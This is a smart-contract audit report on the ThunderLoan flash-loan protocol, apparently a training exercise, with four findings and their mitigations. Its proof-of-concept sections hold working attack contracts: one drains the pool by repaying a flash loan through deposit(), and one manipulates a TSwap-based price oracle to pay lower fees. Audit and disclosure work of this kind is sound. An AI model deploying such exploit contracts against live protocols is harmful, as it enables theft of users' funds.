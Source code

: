 
### [S-#] TITLE (Root Cause -> Impact)

**Description:** 

**Impact:** 

**Proof of Concept:**

**Recommended Mitigation:**




### [H-1] Erroneous `ThunderLoan::updateExchangeRate` in the `deposit` function causes protocol to think it has more fees than it really does, which blocks redemption and incorrectly sets the exchange rate

**Description:** In the ThunderLoan system, the `exchangeRate` is responsible for calculating the exchange rate between assetTokens and underlying tokens. In a way, it's responsible for keeping track of how many fees to give to liquidity providers.

However, the `deposit` function, updates this rate, without coollecting any fees! 

```javascript
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

        // @audit -high we should not be updating the exchange rate here!
@>      uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:** There are several impacts to this bug.

1. The `redeem` function is blocked, bacuse the protocol thinks the owed tokens is more than it has.
2. Rewards are incorrectly calculated, leading to liquidity providers potentially getting way more or less than deserved. 

**Proof of Concept:**

1. LP deposits
2. User takes out a flash loan
3. It is now impossible for LP to redeem.


<details>
<summary>Proof of Code</summary>

Place the following into `ThunderLoanTest.t.sol`
```javascript
  function testRedeemAfterLoan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        
        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), AMOUNT); //fee
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 amountToRedeem = type(uint256).max;
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
    }
```

</details>

**Recommended Mitigation:** Remove the incorrect updated exchange rate lines from `deposit`.

```diff
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

        // @audit -high we should not be updating the exchange rate here!
-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```




### [H-2] All the funds can be stolen if the flash loan is returned using deposit()

**Description:** An attacker can acquire a flash loan and deposit funds directly into the contract using the `deposit()`, enabling stealing all the funds.

The `flashloan()` performs a crucial balance check to ensure that the ending balance, after the flash loan, exceeds the initial balance, accounting for any borrower fees. This verification is achieved by comparing `endingBalance` with `startingBalance + fee`. However, a vulnerability emerges when calculating `endingBalance` using `token.balanceOf(address(assetToken))`.

Exploiting this vulnerability, an attacker can return the flash loan using the `deposit()` instead of `repay()`. This action allows the attacker to mint `AssetToken` and subsequently redeem it using `redeem()`. What makes this possible is the apparent increase in the Asset contract's balance, even though it resulted from the use of the incorrect function. Consequently, the flash loan doesn't trigger a revert.

**Impact:** All the funds of the AssetContract can be stolen.


**Proof of Concept:**
To execute the test successfully, please complete the following steps:

1. Place the attack.sol file within the mocks folder.
2. Import the contract in ThunderLoanTest.t.sol.
3. Add testattack() function in ThunderLoanTest.t.sol.
4. Change the setUp() function in ThunderLoanTest.t.sol.

<details> 
<summary>Proof Of Code</summary>

```javascript
        import { Attack } from "../mocks/attack.sol";
```

```javascript
        function testattack() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        vm.startPrank(user);
        tokenA.mint(address(attack), AMOUNT);
        thunderLoan.flashloan(address(attack), tokenA, amountToBorrow, "");
        attack.sendAssetToken(address(thunderLoan.getAssetFromToken(tokenA)));
        thunderLoan.redeem(tokenA, type(uint256).max);
        vm.stopPrank();

        assertLt(tokenA.balanceOf(address(thunderLoan.getAssetFromToken(tokenA))), DEPOSIT_AMOUNT);   
    }
```

```javascript
        function setUp() public override {
        super.setUp();
        vm.prank(user);
        mockFlashLoanReceiver = new MockFlashLoanReceiver(address(thunderLoan));
        vm.prank(user);
        attack = new Attack(address(thunderLoan));   
    }
```
attack.sol

```javascript
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";

interface IThunderLoan {
    function repay(address token, uint256 amount) external;
    function deposit(IERC20 token, uint256 amount) external;
    function getAssetFromToken(IERC20 token) external;
}


contract Attack {
    error MockFlashLoanReceiver__onlyOwner();
    error MockFlashLoanReceiver__onlyThunderLoan();

    using SafeERC20 for IERC20;

    address s_owner;
    address s_thunderLoan;

    uint256 s_balanceDuringFlashLoan;
    uint256 s_balanceAfterFlashLoan;

    constructor(address thunderLoan) {
        s_owner = msg.sender;
        s_thunderLoan = thunderLoan;
        s_balanceDuringFlashLoan = 0;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata /*  params */
    )
        external
        returns (bool)
    {
        s_balanceDuringFlashLoan = IERC20(token).balanceOf(address(this));
        
        if (initiator != s_owner) {
            revert MockFlashLoanReceiver__onlyOwner();
        }
        
        if (msg.sender != s_thunderLoan) {
            revert MockFlashLoanReceiver__onlyThunderLoan();
        }
        IERC20(token).approve(s_thunderLoan, amount + fee);
        IThunderLoan(s_thunderLoan).deposit(IERC20(token), amount + fee);
        s_balanceAfterFlashLoan = IERC20(token).balanceOf(address(this));
        return true;
    }

    function getbalanceDuring() external view returns (uint256) {
        return s_balanceDuringFlashLoan;
    }

    function getBalanceAfter() external view returns (uint256) {
        return s_balanceAfterFlashLoan;
    }

    function sendAssetToken(address assetToken) public {
        
        IERC20(assetToken).transfer(msg.sender, IERC20(assetToken).balanceOf(address(this)));
    }
}
```

</details>

**Recommended Mitigation:** Add a check in `deposit()` to make it impossible to use it in the same block of the flash loan. For example registring the block.number in a variable in `flashloan()` and checking it in `deposit()`.



### [H-3] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning`, freezing protocol

**Description:** `ThunderLoan.sol` has two variables in the followong order: 


```java
        uint256 private s_feePrecision; 
        uint256 private s_flashLoanFee; // 0.3% ETH fee
```

However, the upgraded contract `ThunderLoanUpgraded.sol` has them in a different order:


```java
        uint256 private s_flashLoanFee; // 0.3% ETH fee
        uint256 public constant FEE_PRECISION = 1e18;
```

Due to how solidity works after the upgrade the `s_flashLoanFee` will have the value of `s_feePrecision`. You cannot adjust the posotoon of storage variables, and removong storage variables for constant variables, breaks the storage locations as well. 

**Impact:** After the upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`. This means that users who take flash loans right after an upgrade will be charged the wrong fee.

More importantly , the `s_currentlyFlasLoaning` mapping with storage in the wrong storage slot. 

**Proof of Concept:**

<details>
<summary>PoC</summary>

Place the following into `ThunderLoanTest.t.sol`

```javascript

import { ThunderLoanUpgraded } from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";
.
.
.
.
    function testUpgradeBreaks() public {
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeToAndCall(address(upgraded), "");
        uint256 feeAfterUpgrade = thunderLoan.getFee();
        vm.stopPrank();

        console.log("Fee Before: ", feeBeforeUpgrade);
        console.log("Fee After: ", feeAfterUpgrade);
        
        assert(feeBeforeUpgrade != feeAfterUpgrade);
    }
```

You can also see the layout difference by running `forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`.

</details>


**Recommended Mitigation:** If you must remove the storage variable, leave it as blank as to not mess up the storage slots. 

```diff
-        uint256 private s_flashLoanFee; // 0.3% ETH fee
-        uint256 public constant FEE_PRECISION = 1e18;
+        uint256 private s_blank;
+        uint256 private s_flashLoanFee; // 0.3% ETH fee
+        uint256 public constant FEE_PRECISION = 1e18;
```







### [M-1] Using TSwap as price oracle leads to price and oracle manipulation attacks.

**Description:** The TSwap protocol is a constant product formula based AMM (automated market maker). The price of a token is determined by how many reserves are on either side of the pool. Bacause of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of the token in the same transaction, essencially ignorning protocol fees.

**Impact:** Liquidity providers will receive drastically reduces fees for providing liquidity.

**Proof of Concept:** 

The followong all happens in 1 transaction.

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `feeOne`. Durung the flash loan, they do the followong:
   1. User sells 1000 `tokenA`, tanking the price.
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`.
      1. Due to the fact that the way `ThunderLoan` calsulates price based on the `TSwapPool` this second flash loan is substantially cheaper.

```javascript
    function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
@>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```
   3. The user then repays the first flash loan, and then repays the second flash loan.

<details>
<summary>Proof Of Code</summary>

Place the following into `ThunderLoanTest.t.sol`

```javascript
    function testOracleManipulation() public {
        //1. Setup contract
        thunderLoan = new ThunderLoan();
        tokenA = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");
        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
        // Create a TSwap Dex btw WETH and TokenA
        address tswapPool = pf.createPool(address(tokenA));
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(pf));

        //2. Fund TSwap
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(address(tswapPool), 100e18);
        weth.mint(liquidityProvider, 100e18);
        weth.approve(address(tswapPool), 100e18);
        // Deposit
        BuffMockTSwap(tswapPool).deposit(100e18, 100e18, 100e18, block.timestamp);
        vm.stopPrank();
        // Ratio 100 WETH & 100 TokenA
        // Price: 1:1

        // 3. Fund ThunderLoan
        // Set allow
        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);
        // Fund
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 100e18);
        vm.stopPrank();

        // 100 WETH & 100 TokenA in TSwap
        // 1000 TokenA in ThunderLoan
        // Take out a flash loan of 50 tokenA
        // Swap it on the dex, tanking the price> 150TokenA : ~80 WETH
        // Take out QANOTHER flash loan of 50 tokenA (and we'll see how much cheaper it is!!)

        // 4. We are going to take out 2 flash loans
        //      a. To nuke the price of the WETH/TokenA on TSwap
        //      b. To show that doing so greatly reduces the fees we pay on ThunderLoan
        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
        console.log("Normal fee is:", normalFeeCost);

        uint256 amountToBorrow = 50e18; // we gonna do this twice
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(address(tswapPool), address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA)));

        vm.startPrank(user);
        tokenA.mint(address(flr), 100e18);
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 attackFee = flr.feeOne() + flr.feeTwo();
        console.log("Attack Fee is: ", attackFee);
        assert(attackFee < normalFeeCost);
       
    }
```

```javascript

    contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    address repayAddress;
    BuffMockTSwap tswapPool;
    bool attacked;
    uint256 public feeOne;
    uint256 public feeTwo;
    // 1. Swap TokenA borrowe for WETH
    // 2. Take out ANOTHER flash loan, to show the difference

    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        tswapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
      }

      function executeOperation(
            address token,
            uint256 amount,
            uint256 fee,
            address /*initiator*/,
            bytes calldata /*params*/
      )

            external 
                returns (bool)
            {
                if(!attacked) {
                    // 1. Swap TokenA borrowe for WETH
                    // 2. Take out ANOTHER flash loan, to show the difference
                    feeOne = fee;
                    attacked = true;
                    uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
                    IERC20(token).approve(address(tswapPool), 50e18);
                    // This will tank the price
                    tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp);
                    // we call a second flashloan
                    thunderLoan.flashloan(address(this), IERC20(token), amount, "");
                    // repay
                    // IERC20(token).approve(address(thunderLoan), amount + fee);
                    // thunderLoan.repay(IERC20(token), amount + fee);
                    IERC20(token).transfer(address(repayAddress), amount + fee);
                }else {
                    // calculate the fee and repay
                    feeTwo = fee;
                    // repay
                    // IERC20(token).approve(address(thunderLoan), amount + fee);
                    // thunderLoan.repay(IERC20(token), amount + fee);
                    IERC20(token).transfer(address(repayAddress), amount + fee);
                }
                return true;                
            }
}
```

</details> 

**Recommended Mitigation:** Consider using a defferent price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle. 